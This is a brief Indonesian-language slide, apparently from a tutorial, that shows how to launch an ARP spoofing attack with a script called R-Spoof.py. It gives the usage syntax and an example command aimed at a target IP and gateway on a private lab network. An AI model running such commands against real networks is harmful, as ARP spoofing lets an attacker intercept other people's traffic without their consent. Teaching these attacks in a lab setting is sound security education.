

Serangan ARP Spoof pada Target

Untuk melakukan serangan pada IP target gunakan command :
$ sudo python R-Spoof.py -x <IP Target> -g <IP Gateway> -d <Delay> -t <Thread>
$ sudo python R-Spoof.py -x 192.168.122.30 -g 192.168.122.198 -d 3 -t 1